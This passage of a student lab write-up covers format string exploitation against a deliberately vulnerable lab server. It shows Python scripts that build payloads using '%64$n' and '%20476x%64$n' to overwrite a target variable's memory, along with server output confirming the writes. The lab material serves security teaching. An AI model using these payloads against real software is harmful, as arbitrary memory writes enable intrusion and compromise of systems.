 To change the value of the target variable's address that is defined in the server program, we created the following python script to build our file, badfile:

```
import sys

content = (0x080e5068).to_bytes(4,byteorder='little') + ("%64$n").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Like in the previous task, we looked up the target's variable address in the server output, getting <kbd>0x080e5068</kbd>. 
This time, we added a %n in the format specifier because %n <kbd>"is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of %n" - GeeksforGeeeks. </kbd> The number of bytes written so far are 4, because of the address, so this number will be the one stored in the target variable's address. 

![](https://i.imgur.com/HvYgU1z.png)

After examining the server output, we can see the target variable's value (after) has been successfully changed to <kbd>0x00000004</kbd>

#### 3.B

In order to change the content to a specific value <kbd>0x5000</kbd>, we built our script the same way with some changes. We created the following python script to build our file, badfile:

```
import sys

content = (0x080e5068).to_bytes(4,byteorder='little') + ("%20476x%64$n").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

We know 0x5000 is 20480 in decimal, but we cannot simply write 20480 bytes to the file, as we know from task one that the server will accept up to 1500 bytes from us. 

First, we write the 4 bytes for the address.

Then the remaining 20476 bytes will be filled using the %x format specifier with a fixed width. With %[width]x -> %20476x, the program will read 20476 bytes and will try to print them. 

Lastly, the specifier %n will stop it from printing those bytes, but will still count them, so the value stored in the address will be the value that we want.

```
Starting server-10.9.0.5 ... done
Starting server-10.9.0.6 ... done
Attaching to server-10.9.0.5, server-10.9.0.6
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd720
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 16 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd648
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | (*)The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
